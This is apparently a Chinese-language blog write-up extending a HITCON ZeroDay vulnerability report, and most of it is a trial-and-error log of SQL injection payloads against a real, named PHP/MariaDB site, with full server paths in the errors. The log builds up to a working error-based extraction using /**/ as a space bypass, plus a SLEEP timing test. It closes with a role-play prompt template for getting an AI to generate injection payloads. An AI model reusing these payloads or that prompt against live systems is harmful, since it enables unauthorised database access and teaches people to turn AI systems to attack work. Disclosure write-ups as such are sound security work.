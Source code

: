 ```yaml
---
title: SQL Injection topone-print Success
description: SQL Injection topone-print Success
last_update:
  date: "2025-08-17T08:00:00+08:00"
---
```


## 前言

1. 本文是 https://zeroday.hitcon.org/vulnerability/ZD-2025-00980 的延伸
2. Server (PHP) 會直接把 URL Encoded 的字串塞到 SQL 語法，例如半形空白 => `%20`，所以只要有包含半形空白的 SQL Injection Payload 都無效，例如 MYSQL 常用的註解 `-- 123`
3. 就在我即將放棄之前，跟 Claude 4 又再進行一輪問答以及實測，得出 `/**/` 可以取代半形空白，於是這個 SQL Injection 的路又重新復活了！

<!-- ## 測試過程

1. `'`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' AND meta_type = '1'' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

2. `')`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') != 0 AND meta_fname != '' AND meta_memo <> '' AND metaset = '1' AND meta...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

3. `' AND extractvalue(1, concat(0x7e, version(), 0x7e)) AND '1'='1`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%20concat(0x7e,%20version(),%200x7e))%20AND%20'1'='1') != 0 AND meta_fname !=...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

可以看到 ` concat` 直接變成 SQL 語法的 `%20concat`，PHP Server 直接把 URL Encode 過後的結果塞到 SQL 語法 => 代表空格會注入失敗

4. `' AND extractvalue(1,concat(0x7e,version())) AND '1'='1`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '='1') != 0 AND meta_fname != '' AND meta_memo <> '' AND meta_set = '1' AND me...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

5. `' AND extractvalue(1,concat(0x7e,version(),0x7e)) AND ('1'='1`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '('1'='1') != 0 AND meta_fname != '' AND meta_memo <> '' AND meta_set = '1' AN...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

6. `' OR extractvalue(1,concat(0x7e,version(),0x7e)) OR '1`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1583 Incorrect parameters in the call to native function 'Locate' in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

終於看到新的錯誤(感動，`Incorrect parameters in the call to native function 'Locate'`，代表原始的 SQL 語法有一個 `Locate` 函數

7. `', (SELECT version()), 1) OR LOCATE('1`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%20(SELECT%20version()),%201)%20OR%20LOCATE('1') != 0 AND meta_fname != '' AN...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

8. `') AND 1=1 --`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' AND meta_type = '1'' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

9. `') AND 1=1#`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') != 0 AND meta_fname != '' AND meta_memo <> '' AND metaset = '1' AND meta...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

10. `') AND extractvalue(1,concat(0x7e,version(),0x7e))#`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') != 0 AND meta_fname != '' AND meta_memo <> '' AND metaset = '1' AND meta...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

11. `test') AND updatexml(null,concat(0x7e,version(),0x7e),null)#`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') != 0 AND meta_fname != '' AND meta_memo <> '' AND metaset = '1' AND meta...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

12. `') AND 1=1 AND LOCATE('a','a')>0#`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') != 0 AND meta_fname != '' AND meta_memo <> '' AND metaset = '1' AND meta...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

13. `test') OR 1=1#`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') != 0 AND meta_fname != '' AND meta_memo <> '' AND metaset = '1' AND meta...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

14. `test','test') OR 1=1#`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') != 0 AND meta_fname != '' AND meta_memo <> '' AND metaset = '1' AND meta...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

15. `test', meta_field) OR 1=1 OR LOCATE('1`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%20meta_field)%20OR%201=1%20OR%20LOCATE('1') != 0 AND meta_fname != '' AND me...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

16. `test', 'a') OR 1=1 OR LOCATE('1`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%20'a')%20OR%201=1%20OR%20LOCATE('1') != 0 AND meta_fname != '' AND meta_memo...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

17. `test', 1) OR 1=1 OR LOCATE(1,1) OR LOCATE(1`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%201)%20OR%201=1%20OR%20LOCATE(1,1)%20OR%20LOCATE(1') != 0 AND meta_fname != ...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

18. `test', 1) OR 1=1#`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%201)%20OR%201=1') != 0 AND meta_fname != '' AND meta_memo <> '' AND meta_set...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

19. `test', 1) OR 1=2#`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '%201)%20OR%201=2') != 0 AND meta_fname != '' AND meta_memo <> '' AND meta_set...' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

20. `test') OR 1=1 OR LOCATE('dummy`

```
Fatal error: Uncaught PDOException: SQLSTATE[42S22]: Column not found: 1054 Unknown column '20OR' in 'WHERE' in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

Unknown column '20OR' 代表 ` OR` => `%20OR` => `20OR` 被當作 column

21. `test')/**/OR/**/1=1/**/OR/**/LOCATE('dummy`

```
Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1582 Incorrect parameter count in the call to native function 'LOCATE' in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

Incorrect parameter count in the call to native function 'LOCATE'，重要的進展！

22. `test')/**/OR/**/1=1/**/OR/**/LOCATE('dummy','dummy`

沒看到錯誤訊息

23.

```
test')/**/OR/**/1=(SELECT/**/CAST(version()/**/AS/**/SIGNED))/**/OR/**/LOCATE('dummy','dummy
test')/**/OR/**/1=(SELECT/**/999999)/**/OR/**/LOCATE('dummy','dummy
test')/**/AND/**/1=0/**/AND/**/LOCATE('dummy','dummy
```

都沒看到錯誤訊息

24. `test')/**/AND/**/SLEEP(5)/**/AND/**/LOCATE('dummy','dummy`，有明顯延遲，大概 10 秒以上

25. `test')/**/UNION/**/SELECT/**/1,2,3,4,5,version(),7,8,9/**/OR/**/LOCATE('dummy','dummy`

```
Fatal error: Uncaught PDOException: SQLSTATE[42S22]: Column not found: 1054 Unknown column 'meta_fname' in 'SELECT' in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

Unknown column 'meta_fname' in 'SELECT'，這應該是原始 SQL 語法的錯誤

26. `test')/**/AND/**/extractvalue(1,concat(0x7e,version(),0x7e))/**/OR/**/LOCATE('dummy','dummy`

```
Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~10.6.20-MariaDB-cll-lve~' in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44
```

成功從 `'~10.6.20-MariaDB-cll-lve~'` 提取到 `version()` = `10.6.20-MariaDB-cll-lve`

27. 接下來請參考 [ZD-2025-00980](https://zeroday.hitcon.org/vulnerability/ZD-2025-00980) -->

## 學到的東西

1. 如果在半形空白無法正確注入的情況，可以用 `/**/` 來取代半形空白
2. [LOCATE()](https://www.w3schools.com/sql/func_mysql_locate.asp)
3. 一開始跟 AI 對話時，建議要把完整的現況交代清楚，清楚的告知任務，並且賦予 AI 一個角色，例如

```
你是 SQLi 大師
任務: 分析一個 SQLi，每次請提供一個 Payload 以及解釋攻擊手法
情境: URL Path Based SQLi
target: https://www.domain.com.tw/company.html
SQLi Payload: https://www.domain.com.tw/company.html'
Error Message: Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' AND meta_type = '1'' at line 1 in ...
```

<!-- Error Message: Fatal error: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' AND meta_type = '1'' at line 1 in /home2/topone/public_html/includes/cls_mysql.php:44 Stack trace: #0 /home2/topone/public_html/includes/cls_mysql.php(44): PDOStatement->execute() #1 /home2/topone/public_html/includes/lib_main.php(32): DB->GetRow('SELECT * FROM m...') #2 /home2/topone/public_html/includes/init.php(55): getMetaHotsite('meta_memo') #3 /home2/topone/public_html/company.php(8): require_once('/home2/topone/p...') #4 {main} thrown in /home2/topone/public_html/includes/cls_mysql.php on line 44 -->
